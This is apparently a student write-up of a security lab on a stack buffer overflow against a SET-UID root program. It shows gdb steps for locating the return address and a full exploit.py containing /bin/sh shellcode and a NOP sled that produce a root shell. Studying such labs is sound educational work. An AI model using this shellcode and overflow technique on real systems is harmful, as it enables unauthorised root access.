

# Week 5
## Task 1

After compiling:
```bash
$ make
```

we executed the a32.out or a64.out:
```bash
$ ./a32.out
$ ./a64.out
```

and a new shell appears in the terminal.


## Task 2 & 3

In this task, we use this vulnerable SET-UID root program to gain access to the root shell. Since, we have disabled Address Space Layout Randomization, we know that our process will be stored  in  around the same memory always in  the  stack. So in order to find the address of the running program in the memory, we compile the program in debug mode. Debugging will help us run our desired program.

So,  we  first  compile  the  program  in  the  debug  mode (-g  option),  with  the  StackGuard  counter-measure disabled and Stack executable and then run the program in debug mode using gdb:


In gdb, we set a breakpoint on the bof function using b bof, and then start executing the program:



The program stops inside the bof function due to the breakpoint created. The stack frame values for this function will be of our interest and will be used to construct the badfile contents. Here, we print out the ebp and buffer values, and also find the difference between the ebp and start of the buffer in order to find the return address value’s address. The following screenshot shows the steps:


Here, we see that the frame pointer is `0xffffcf88` and hence the return address must be stored at `0xffffcf88 + 4`, and the first address we can jump to is `0xffffcf88 + 8`. Also, in order for the return address to point at our code, we need to know the location to store the return address in the input so  that it is stored in the return address  field  in  the  stack.  This  can  be found out by finding the difference between the return address and buffer start address, because our input is copied to the buffer from the start. We also know that return address will be 4 bytes above where the ebp points.

In the next step, we modify the exploit.py file to enter the new return address:

```python=
#!/usr/bin/python3
import sys
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
##################################################################

# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffcf1c + start
offset = (0xffffcf88 - 0xffffcf1c) + 4

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)

```

Next, we first make the python program executable and run the exploit.py file to generate the badfile. Then we run the vulnerable SET-UID program that uses this badfile as input and copies the contents of the file  in the stack, resulting in a buffer overflow. The `#` sign indicates that we have successfully obtained the root privilege by entering into the root shell. The effective user ID is seen to be that of the root (0):


Hence, we have successfully performed the buffer overflow attack and gained root privileges.
